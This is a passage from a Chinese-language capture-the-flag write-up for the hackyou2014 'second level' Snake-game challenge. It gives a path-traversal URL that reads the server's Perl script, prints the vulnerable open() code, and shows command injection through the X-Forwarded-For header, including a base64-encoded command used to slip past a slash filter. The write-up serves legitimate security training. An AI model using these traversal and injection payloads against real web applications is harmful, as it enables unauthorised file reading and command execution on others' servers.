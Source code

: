 第二关
---

* * *

[http://hackyou2014tasks.ctf.su:20080/](http://hackyou2014tasks.ctf.su:20080/)

这关打开后是个贪吃蛇游戏，只有注册用户才能保存结果，我们注册一个用户babybox，玩完游戏后访问后台，发现有个ip参数值得注意，尝试提交

```
http://hackyou2014tasks.ctf.su:20080/cgi-bin/index.pl?ip=../../../../../../var/www/cgi-bin/index.pl

```

发现有LFI，如图3

![2014012112125366530.png](http://drops.javaweb.org/uploads/images/5736028010fc1da0ff93f902eb0d43716a5e9f72.jpg)

通过读取到的index.pl源码可以发现，

```
$login = $session->param('login');
print $req->p('Hello, '.$login.'!');
if ($req->param('ip')) {
    $file = './data/'.MD5($login)."/".$req->param('ip');
    if (-e $file) {
        open FILE, $file;
        $html = '';
        while (<FILE>) {
            $html .= $_;
        }
        close(FILE);
        print $req->start_table({border=>1});
        print $req->Tr($req->th(['Date', 'Score']));
        print $html;
        print $req->end_table();
        print $req->a({href=>'index.pl'}, 'Back');
    } else {
        print $req->h1('Error');
    }
}

```

其中的open函数，可以导致命令执行，下载火狐的X-Forwarded-For Header插件，设置X-Forwarded-For为|pwd|，然后玩游戏，进后台看成绩，提交

```
http://hackyou2014tasks.ctf.su:20080/cgi-bin/index.pl?ip=|pwd|

```

发现命令注入成功了。由于这里不能使用/和\字符，我们可以使用base64编码下，如图4

这之前需要在提交成绩的时候X-Forwarded-For改为

```
|`echo bHMgLw== | base64 -d`|

```
